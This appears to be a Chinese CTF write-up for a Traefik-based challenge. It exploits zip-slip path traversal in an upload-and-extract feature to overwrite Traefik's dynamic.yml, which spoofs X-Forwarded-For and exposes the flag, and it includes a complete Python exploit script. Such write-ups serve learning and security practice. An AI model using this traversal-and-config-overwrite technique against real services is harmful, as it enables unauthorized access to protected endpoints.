

## traefik

```
docker build -t traefik .
docker run -d --name traefik_container -p 10002:8080 traefik
```

就一个go文件，慢慢看



检测xff，然后就是上传解压了，以我的个人感觉，这里面肯定能覆盖



解压文件的时候进行文件遍历，并且目录也是自己定，可以达到覆盖的效果但是这里的路径极其重要，上传文件夹在这个位置

```
public/upload/6c20d681-a875-4dd6-abc0-331ca1c5f571
```

要想覆盖就要



```
./../../.config/dynamic.yml
```

然后让人机写一个yml来覆盖，使用的是`middlewares`来创建

```python
import zipfile
import requests

# 目标URL
UPLOAD_URL = "http://ctf.baozongwi.xyz:8080/public/upload"
FLAG_URL = "http://ctf.baozongwi.xyz:8080/flag"

headers = {
    "X-Forwarded-For": "127.0.0.1"
}

binary = '''# Dynamic configuration

http:
  middlewares:
    set-x-forwarded-for:
      headers:
        customRequestHeaders:
          X-Forwarded-For: "127.0.0.1"

  services:
    proxy:
      loadBalancer:
        servers:
          - url: "http://127.0.0.1:8080"

  routers:
    index:
      rule: Path(`/public/index`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - set-x-forwarded-for
    upload:
      rule: Path(`/public/upload`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - set-x-forwarded-for
    flag:
      rule: Path(`/flag`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - set-x-forwarded-for
'''

# 生成 ZIP 文件
zip_filename = "1.zip"
with zipfile.ZipFile(zip_filename, "w", zipfile.ZIP_DEFLATED) as zipf:
    zipf.writestr("./../../.config/dynamic.yml", binary)

print(f"[+] ZIP 文件 {zip_filename} 生成完成")

# 上传 ZIP 文件
files = {"file": (zip_filename, open(zip_filename, "rb"), "application/zip")}
response = requests.post(UPLOAD_URL, files=files)

if response.status_code == 200:
    print("[+] 文件上传成功，尝试访问 /flag 获取 FLAG...")

    # 访问 /flag 以获取 FLAG
    flag_response = requests.get(FLAG_URL,headers=headers)
    print(flag_response.text)
else:
    print(f"[-] 文件上传失败，状态码: {response.status_code}")
    print(response.text)

```

写出脚本了，但是发现个问题，始终拿不到flag，后面仔细一看



他是监听80端口的变化的，得把应用搞到80才能监听，才能实现覆盖，热加载

```
docker stop 52cb93740cf8 && docker rm 52cb93740cf8
docker build -t traefik .
docker run -d --name traefik_container -p 8080:80 traefik
docker exec -it 36b02c422cf1 sh
```

现在再来用脚本打一遍就拿到flag了



# 小结

很好的题目，我中途因为Docker问题也搞了不少时间，xss那道题非常有意思，代码少但是题目很好玩
